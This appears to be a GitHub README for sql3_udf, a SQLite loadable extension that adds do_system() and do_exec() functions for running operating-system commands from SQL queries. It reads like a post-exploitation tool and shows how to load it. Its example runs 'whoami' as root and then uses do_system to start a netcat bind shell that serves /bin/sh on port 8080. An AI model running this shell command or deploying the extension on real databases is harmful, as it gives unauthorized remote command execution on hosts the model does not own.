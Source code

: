 sql3_udf
========

Much like lib_mysqludf_sys, this is a UDF (run-time loadable extension in 
sqlite land) library used to execute system commands from SQL queries.
It can be loaded through the SQLite3 interface or using a query:

```
sqlite> select load_extension("/tmp/lib_sql3udf_sys.sqlext");
```
or
```
sqlite .load /tmp/sql3_udf.sqlext
```

Please note that, by default, the load_extension functionality is disabled by 
default.  Many sqlite3 databases, however, do enable it, so all is not lost.  This
can be enabled in source code with the following:

``` 
sqlite3_enable_load_extension(db, 1);
```

Two functions are exposed through this simple interface:

``` 
do_system()
    -- Executes a system command and returns only the status of that execution.
do_exec()
    -- Executes a system command and returns all of the resulting output.
```

Thus:
```
$ sqlite3 test.db
sqlite> .load /tmp/sql3_udf.sqlext
sqlite> select do_exec('whoami');
root
sqlite> select do_system("nc -lv -p 8080 -e /bin/sh &>/dev/null &");
0
sqlite>
```
